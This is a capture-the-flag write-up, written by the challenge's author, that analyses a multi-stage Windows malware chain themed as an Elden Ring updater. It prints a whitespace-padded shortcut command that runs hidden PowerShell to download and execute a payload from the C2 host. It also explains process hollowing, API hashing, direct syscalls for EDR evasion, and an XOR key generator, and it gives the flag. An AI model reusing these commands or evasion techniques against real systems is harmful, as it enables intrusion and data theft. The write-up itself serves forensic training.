

# Elden Ring

r this overview, the environment will be slightlyyy different than what is provided since google flagged my server as malicious xD (they aren't wrong though)&#x20;

<figure><figcaption><p>Got warning from GCP xD</p></figcaption></figure>

For this overview, I will be running the server on my local machine xD

## Preparation

For the challenge, we invited people to bring their own tools to conduct a forensic investigation on a computer given the following context:&#x20;

```
I wanted to play elden ring, but strange things are appearing at my laptop, 
can you help me discover what is happening to it?
```

As participants were allowed to bring any tools as long as they don't install anything on the infected machine, here are some of the nice tools to bring along! (I think my explanation is scuff for some of the tools ;-;)

### Sysinternals

A very powerful suite of tools to see whats happening in the system currently and conduct analysis of the system. Some of the tools in the suite includes:

* &#x20;Process Explorer,&#x20;
  * a better version of Task Manager as it gives insights of a process such as running threads, compare image/memory strings (impt for this challenge!) and other essential information!
  *

      <figure><figcaption></figcaption></figure>
* Autoruns
  * A software to see all startup programs on a machine. Such programs will be executed when the machine reboots. Such techniques are frequently used by malicious programs to achieve persistence on the infected machine, ensuring the program will survives reboots and continue to run.
  *

      <figure><figcaption><p>A list of startup programs on my machine!</p></figcaption></figure>


* Procmon
  * A software to see APIs that are being called on the system! When started, will generate APIs called with some parameters that are being passed into the APIs and also the process that called to API. It is great for trying to see what a suspicious program is calling and executing on the system to determine if there are anything worth to continue investigating.
  *

      <figure><figcaption><p>APIs called in the system</p></figcaption></figure>


### Any memory dumpers

For any forensic investigation, it is good to bring along a memory dumper such as FTK Imager/Autopsy to dump the system memory and analyse the processes running on the system and single out any suspicious programs that are currently running in memory which can be used for further analysis!

Alternatively, if u managed to identify the process directly from analysing process explorer, it is possible to just dump the memory of the process directly (why not just copy the file from the file system? You will find out why in this challenge!)  Some programs that are able to achieve this includes:&#x20;

* Volatility
* x64/x86dbg

### FS dumpers

For an actual forensic investigation of a computer, the filesystem is normally dumped to investigate any malicious activity such as files being dropped by the malware, and for the recovery of any lost data that might have occurred during the attack. However due to time constraints of the CTF, when i designed the challenge, I actually didn't want anyone to dump the filesystem (though some of you did HAHAHAH) but oh wells XD


Now time to hop into the challenge!

## Challenge Overview

Here is the full flowchart of what happened to the victim's computer:

<figure><figcaption></figcaption></figure>

From here, when the investigation happened, the malware has already begun communication with the C2, which will bring us to the start of this challenge with the notepad opened:

<figure><figcaption></figcaption></figure>

OKKKKK HERE I NEED TO APOLOGISE HERE. IF U SEE THE SS ^ U WILL SEE A NOTES FILE ON THE DESKTOP. THIS IS SUPPOSED TO APPEAR ON THE VICTIM MACHINE BUT MICROSOFT DECIDED THAT EVERYTHING SHLD BE DEFAULTED TO ONEDRIVE AND DIDNT CREATE THE DESKTOP DIR BY DEFAULT, HENCE WHEN THE MALWARE STARTED RUNNING, IT SAVED TO C:\Users\\\<username>\Desktop\notes.lnk, but with windows 11 shenenigans, it did not appear ;-; (blame microsoft)


From here, there are multiple ways to get the required exes, depending on how much exploring you want to do:

### Firefox history

Opening up firefox and checking the history, which will lead you to http://challs.nusgreyhats.org:35000/get which will open up this installer page:

<figure><figcaption></figcaption></figure>

From here, can extract the installer and start analysing there!

### Via startup programs

Task Manager on Windows 11 apparently has the ability to show the chain of executables that will be fired off after startup up (oops i dont have a Windows 11 vm) but heres an example:

<figure><figcaption></figcaption></figure>

From there, it should be enough to extract the files for further analysis!

### Via memdump of msmpeng.exe

By right this was the intended solution, which is to identify msmpeng.exe as the final stage malware that is left running on the victim machine and dump it. From the analysis of the dump, the flag can be obtained!

## Analysis of all the artifacts

In this section, i hope to briefly go through all the stages of the malware xD (pretty much assuming 1st solution HAHAHAHA)

### Loader.exe

* Characteristics: written in go, stripped

Welp, this is the first stage of the chain! Technically the binary is stripped, but using GoReSym ([https://github.com/mandiant/GoReSym](https://github.com/mandiant/GoReSym)), the symbols can be recovered, making analysis easier!&#x20;

However, i still dont really like to reverse go binaries, so I will be showing its behaviour via dynamic analysis:

When started, nothing much happens, except this window will appear:

<figure><figcaption></figcaption></figure>

The executable is asking for a reboot! Pressing yes will cause the system to reboot. This might suggest that something is being written to startup programs which will be executed after the reboot. A quick look will show that a new program has been added to startup:

<figure><figcaption></figcaption></figure>

Here updater.exe has been added! updater.exe is saved to :  "C:\Users\\\<username>\AppData\Local\ELDENRINGNIGHTREIGN\updater.exe" A quick look will show that both updater.exe and loader.exe is the same file as they have the same file hashes:

<figure><figcaption></figcaption></figure>

This means that the file is copied under a new name to disguise as a game updater to reduce any suspicions ;-; then after rebooting, the updater will be run! Time to see what it does!

### Updater.exe (or loader.exe part 2)

Here, I will be analysing updater.exe under procmon:

From below, it can be seen that updater.exe is communicating with a server and writing to \<Desktop>/notes.lnk (ignore dogecoin.com:35000, if u did it during the CTF, it should show challs.nusgreyhats.org)

<figure><figcaption></figcaption></figure>

After writing, it will spawn powershell!

<figure><figcaption></figcaption></figure>

Upon closer inspection, it will be executing notes.lnk from powershell, but why it is doing so? It seems that notes.lnk will open notes.txt? What does it do?

### Notes.lnk (a shortcut? or is there something else.....)

Opening up notes.lnk fires up the notepad with notes.txt at \<Documents>/notes.txt (at least on the machine provided) Otherwise, if it doesnt exist an error will pop up....

Anyways, looking at process explorer, cmd.exe is seen instead (wtf) and looking at the command line of the application:


```
"C:\Windows\system32\cmd.exe"                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 /c start notepad C:\\Users\sad\Documents\notes.txt && powershell -windowstyle hidden $path = 'C:\Users\sad\AppData\Local\Temp\tmp' + (Get-Random) + '.exe';Invoke-WebRequest "http://challs.nusgreyhats.org:35000/download/injector.exe" -OutFile $path; ^&$path
```


Can see that notepad is being called by cmd to open the file and then spawn powershell to download injector.exe from the c2 and saving it in the temp file. After that, the temp file will be executed.

(Note here, by right I was supposed to ship the exe with the lnk file. If you realised the lnk file isss a bit too huge for a file with a command. Well I did have the encrypted file in the lnk. Source for the embedder: [https://web.archive.org/web/20220802111909/https://www.x86matthew.com/view\_post?id=embed\_exe\_lnk](https://web.archive.org/web/20220802111909/https://www.x86matthew.com/view_post?id=embed_exe_lnk) - credits to Jin Kai xD. However for some reason my 7mb exe exploded to gbs in ram when executing the code so I swapped it for a downloader)

### Injector.exe

Upon analysing injector.exe under procmon, it seems that injector.exe is communicating with the C2 and writing to %TEMP%/msmpeng.exe:

<figure><figcaption></figcaption></figure>

However, it continues communication afterwards! What is it trying to download? Looking at wireshark:

<figure><figcaption></figcaption></figure>

2 exes are being downloaded! one being msmpeng.exe and another being sad.exe. But where is sad.exe? You will find out ltr xD!

Anyways, afterwards, msmpeng is created:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

And upon looking at wireshark, theres a ping to the C2 server! but sad, the c2 response seems to be encrypted....

<figure><figcaption></figcaption></figure>

Shall we look at msmpeng.exe then?

### msmpeng.exe (wtf where is my network connection? WAIT WHERES MY PROCESS???)

Upon running msmpeng.exe, you will see weird output:

<figure><figcaption><p>wtf???</p></figcaption></figure>

This def did not appear when running injector.exe, nor did it connect to any C2 when run, so whats inside? Also when run, some of my process disappeared :(

Upon opening in IDA heres the main function:

<figure><figcaption></figcaption></figure>

The main function enumerates all processes currently running in the system and calling checkProcess for each process via CreateToolhelp32Snapshot, Process32First and Process32Next.

Here is checkProcess:

<figure><figcaption></figcaption></figure>

There is some decrypting of strings, then a random number is generated. If it is a multiple of 6, the process is terminated ;-; (wtf russian roulette)

buttttt, thats not the point here, soooo wheres the c2 connection? Upon comparing of strings between image/memory, it seems that they are totally different exes!

<div><figure><figcaption></figcaption></figure> <figure><figcaption></figcaption></figure></div>

Soooo what happened?

### Injector.exe (part 2)

So in injector.exe, i used a technique called process hollowing, where I started msmpeng.exe in suspended state, then overwrite the exe with sad.exe and resumed the process! I written this part in go using the following github: [https://github.com/fistfulofhummus/Process-Hollowing-in-Go](https://github.com/fistfulofhummus/Process-Hollowing-in-Go)

In summary, using go syscall library's lazy\_DLL and resolving WinAPIs address via newProc, i was able to use WinAPIs to access the process memory at msmpeng.exe and overwrite it with sad.exe without writing sad.exe on the file system!

Some resources for process hollowing are over here! (i dont think i can do the explanation enough justice ;-;)

1. [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)
2. [https://github.com/m0n0ph1/Process-Hollowing](https://github.com/m0n0ph1/Process-Hollowing)


Alright time for the final payload, sad.exe!

### Sad.exe

For this malware, i wrote it in c++ (not go yay!). To get access to the malware, just access challs.nusgreyhats.org:35000/download/sad.exe

So as from above, when u run sad.exe u will see the executable beaconing out to challs.nusgreyhats.org:35000/ every minute, with the server responding with a encrypted message, how is the message encrypted?&#x20;

<figure><figcaption></figcaption></figure>

Also, the message seems to change after some time also:

<div><figure><figcaption><p>2nd one</p></figcaption></figure> <figure><figcaption><p>1st one</p></figcaption></figure></div>

But the message length seems to be the same, so the key seems to change over time ;-;.

Opening the exe in IDA:

<figure><figcaption></figcaption></figure>

Seems like theres some http requests going on judging from the "HTTP/1.1" string seen. But theres no any visible windows API calls ;-; Instead there are a lot of pointers to functions. So what happened here?

Soooo what i did here is called dynamic resolution of Windows APIs. However to do so, I will need to either call LoadLibraryA from kernel32 directly, or I could locate kerrnel32 in the process on my own, then call LoadLibraryA by myself! The following article should explain it clearly

1. Getting handle to kernel32: [https://0xdarkvortex.dev/windows-shellcoding-x86-hunting-kernel32-dll-part-1/](https://0xdarkvortex.dev/windows-shellcoding-x86-hunting-kernel32-dll-part-1/)
2. Dynamic resolution via hashing of function names: [https://www.ired.team/offensive-security/defense-evasion/windows-api-hashing-in-malware](https://www.ired.team/offensive-security/defense-evasion/windows-api-hashing-in-malware)

But even after that,theres some weird functions:

<figure><figcaption></figcaption></figure>

Here the syscall instruction is invoked, syscalls are instructions that allow programs to interact with the kernel. To determine what to do, there are syscalls numbers to determine which WinAPI to call. But doing this manually is very tedious, hence theres a github called Syswhispers3 ([https://github.com/klezVirus/SysWhispers3](https://github.com/klezVirus/SysWhispers3)) to assist in making syscalls! These calls can help to evade any API hooking done by API monitor/EDRs/AVs and make each process seem more silent (sort of, there are ways to track syscalls, one being Sealighter [https://github.com/pathtofile/Sealighter](https://github.com/pathtofile/Sealighter)).&#x20;

Finally, some strings are also encrypted on the system are decryption occurs b4 using them:

<pre class="language-cpp"><code class="lang-cpp">uint8_t key[] = { 0xa4, 0x5b, 0x87, 0xce, 0xe8, 0xed, 0xa8, 0x4a, 0x84, 0x0a, 0x40, 0x29, 0xc9, 0x86, 0xa7, 0xdc, 0x62, 0x3d, 0xa9, 0xa8, 0x8c, 0xf6, 0x2f, 0x5f, 0x4c, 0xc5, 0x1c, 0xfa, 0x15, 0xee, 0x7b, 0xbf };
<strong>void decryptString(byte* bytes, int len, byte* buf) {
</strong>    for (int i = 0; i &#x3C; len; i++) {
        buf[i] = bytes[i] ^ key[i % 32];
    }
}

</code></pre>

After a bit of analysing, here is the flow of events (ss taken from memdump of msmpeng.exe):

1.  Initialise kernel.dll and wininet.dll\


    <figure><figcaption><p>kernel32.dll being compared to against module list</p></figcaption></figure>

    <figure><figcaption><p>kernel32 loaded!</p></figcaption></figure>

    <figure><figcaption><p>Loading Windows API functions!</p></figcaption></figure>
2. Checks if mutex "Wonderhoy" has been created, exits if so, else creates a new mutex and continues execution.
   1. This is commonly used in malware to prevent reinfection

<figure><figcaption><p>Creates to check for mutex!</p></figcaption></figure>


3. Connects to http://challs.nusgreyhats.org:35000 to get command from C2

<figure><figcaption><p>Connecting to challs.nusgreyhats.org! (string can be found in rdx)</p></figcaption></figure>

<figure><figcaption><p>Reading the command via InternetReadFile</p></figcaption></figure>

4. If command fits any of the following, will execute command:
   1. process
      1. CreateProcess
   2. read
      1. Read a file and send to server
   3. write
      1. Downloads a file from server and writes it to specified file

For each command, there seems to be a function that is called, followed by a xoring loop that xors with the return value of the function! This means that v23 is the key!

<figure><figcaption></figcaption></figure>

Opening the function reveals a key generation function!

<figure><figcaption></figcaption></figure>

What is used here is a Domain Generator Algorithm, which is normally used to generate domain names for a C2 server, but here it is used for the key which will change every hour! Heres the equivalent code in c++:

```cpp
uint8_t* getKey() {
    SYSTEMTIME time;
    (func_GetSystemTime(kernel32_functions[0]))(&time);
    uint32_t  month = time.wMonth;
    uint32_t  day = time.wDay;
    uint32_t  hour = time.wHour + 8;
    uint8_t* basedDomain = (uint8_t*)calloc(33, 1);
    if (!basedDomain) {
        exit(0);
    }
    for (int i = 0; i < 32; i++) {
        hour = (((hour ^ (8 * hour)) >> 3) ^ ((hour & 0xFFFFFFFE) << 15)) & 0xFFFFFFFF;
        month = (((month ^ (month << 10)) >> 16) ^ (16 * ((month & 0xFFFFFFF8) << 11))) & 0xFFFFFFFF;
        day = (((day ^ (day << 13)) >> 19) ^ ((day & 0xFFFFFFFE) << 12)) & 0xFFFFFFFF;
        basedDomain[i] = ((hour ^ month ^ day)) % 128;
    }
    return basedDomain;
}
```

Here is the format of each command by the c2:

0/process/read/write: command by C2

4 bytes: size of parameters of the command

n-bytes: parameters of the command

It seems that the command thats send by the c2 is always 0 tho, so the string cannot be decrypted so how to decrypt? Either replicate the key generation function and extract the bytes or u can choose where to alter the execution flow of the program!

When the program reaches one of the strcmp, can flick the zero flag on the registers which will flip the results of test instruction:

<figure><figcaption><p>Before the flick, notice the value of ZF which is 0 and the green arrow is flashing, indicating execution will jump thr</p></figcaption></figure>

<figure><figcaption><p>After the flick, notice the value of ZF which is 1 and the red(black?) arrow is flashing, indicating execution will jump thr</p></figcaption></figure>

From there, skip the part where it will shift the buffer back again and it will get the key and extract the flag!

<figure><figcaption></figcaption></figure>

Flag:


```
grey{Y0KOS0_KIR4_KIR4_DOKI_D0KI_M0CH1_MOCH1_PuY0_PuY0_WAKU_WAKU_W4SH0II_NA_W0NDER_ST4GE_YE}
```

